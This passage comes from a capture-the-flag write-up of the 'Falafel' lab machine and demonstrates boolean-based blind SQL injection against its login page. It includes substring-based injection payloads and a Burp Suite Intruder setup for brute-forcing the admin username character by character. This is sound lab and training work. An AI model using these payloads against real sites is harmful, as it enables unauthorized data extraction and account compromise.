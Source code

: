 Now that I can leak information from the web server database, I can use the **SQL** `subtring` function to deduce if the server response is correct or not, based on the error message. If I analyze the request sent to the server I can find the names of the variables where the credentials are stored, and with the usernames that I know that exist (**admin**, **chris**) in the server I can perform tests with **Injections** that will allow me to obtain important information to compromise the website.

```html
http://10.10.10.73/login.php
#      --> admin' and substring(username,1,1)='a'-- -:admin    :)
#      --> admin' and substring(username,1,1)='b'-- -:admin    :(
#      --> admin' and substring(username,2,1)='d'-- -:admin    :)
#      --> admin' and substring(username,3,1)='m'-- -:admin    :)
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_21.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_22.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_23.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_24.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

With **[BurpSuite](https://portswigger.net/burp){:target="_blank"}** I can automate the leakage of information using the **Intruder** tool. I only have to capture the traffic from my browser to the server and configure the type of attack, the parameter(s) to be updated with each injection, the payloads to be sent, create an expression to check if the response is true or false and start the attack. After waiting a bit I can see that the attack works correctly for the **admin** username, I could continue using **[BurpSuite](https://portswigger.net/burp){:target="_blank"}** to get more information, but it gets better to automate it by creating a custom script.

```bash
burpsuite &>/dev/null & disown
# Burp --> Intruder
# username=admin' and substring(username,§1§,1)='§b§'-- -&password=admin
#     Cluster bomb attack
#     Payloads: 1st - Numbers,1,5,1, URL-encode these characters [Disable]
#     Payloads: 2nd - Brute forcer,abcdefghijklmnopqrstuvwxyz,1,1, URL-encode these characters [Disable]
#     Options: Grep-Match (Wrong identification, Flag responses matching these expresions [Enable])
```

<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_25.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_26.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_27.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_28.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_29.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_30.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/falafel_writeup/Falafel_31.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />
